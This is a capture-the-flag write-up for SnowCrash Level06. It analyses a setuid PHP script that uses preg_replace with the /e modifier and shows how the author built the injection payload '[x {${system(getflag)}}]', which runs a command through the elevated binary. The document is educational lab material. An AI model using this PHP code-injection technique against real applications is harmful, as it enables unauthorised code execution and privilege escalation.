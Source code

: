# Level06

## Research

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```bash
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ ./level06.php
PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
```bash
level06@SnowCrash:~$ strings level06
[...]
/usr/bin/php
/home/user/level06/level06.php
[...]
```
Maybe `level06` executes `level06.php`.

If we `cat level06.php` the file is hard to read, so I re-wrote it and study it: 
```php
#!/usr/bin/php
<?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m); 
        $m = preg_replace("/@/", " y", $m); 
        return $m; 
    }
    // manipule argv 1
    function x($y, $z) {
        // read file y and put content into string a
        $a = file_get_contents($y); 
        // first / indicates start of regular expression
        // second / indicates end of it, and start of expression flags
        // expression flag here: e , known for security problem
        // The e modifier is a PHP-specific modifier that triggers PHP 
        // to run the resulting string as PHP code.
        // the '/e' modifier actually allows us to evaluate the second argument as a PHP expression.
        // calls the function eval()
        // programms call function y() here thanks to modifier e
        // () Capturing group. Groups multiply tokens together and creates a capture group
        // for extracting a substring or using a backreference
        // \1 - it means the first capturing group in the matched expression. 
        // \n would be the nth capturing group. (Note that \0 would be whole match). 
        // In many engines, the upperlimit for n is 9, but some support up to 99 as well.
        // When used in regex like (a|b)\1, it means that after a or b, the next character 
        // should be the first captured group, which is a or b so the regex here would 
        // match aa or bb.
        // \[ matches a [ character
        // x matches a x character and a space one
        // . matches any character except line breaks
        // * matches 0 or more of the preceding token
        // \] matches a ] character

        // \[x (.*)\] first group --> [x ] or [x coucou] matches
        // .* second group, given as parameter to function y --> [x @.coucou] changes @ and . in y function
        // [x@ @.coucou] don't match first group, so it doesn't work
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        // replace [ by (
        $a = preg_replace("/\[/", "(", $a);
        // replace ] by )
        $a = preg_replace("/\]/", ")", $a);
        return $a; 
    }
    // y = argv 1
    // z = argv 2
    $r = x($argv[1], $argv[2]); 
    print $r;
?>
```
```bash
level06@SnowCrash:~$ ./level06 hello
PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```
We seems to need a file as an argument.

Theorical steps:
- Create a file with a syntax matching the regex
- So a part of the string (the second group) can be sent to function y
- In function y the string will be transformed (or not) then returned
- The returned string will be executed by the e modifier</br>
https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/ </br>
https://www.php.net/manual/en/language.types.string.php </br>

In reality:
- Struggled **a lot** to find good syntax, tried: </br>
`echo '[x $(getflag)]' > /tmp/flag && ./level06 /tmp/flag` </br>
`echo '[x ${system(getflag)}]' > /tmp/flag && ./level06 /tmp/flag` </br>
and a lot of variants of it...

## Solution 

Let's find the good syntax:</br>
https://www.php.net/manual/fr/language.types.string.php</br>
https://www.voidsecurity.in/2012/12/exploit-exercise-php-pregreplace.html</br>
https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex 

Finally:
```bash
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > /tmp/flag && ./level06 /tmp/flag
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXX
PHP Notice:  Undefined variable: Check flag.Here is your token : XXXXXXXXXXXXXXXXXXX in /home/user/level06/level06.php(4) : regexp code on line 1

```


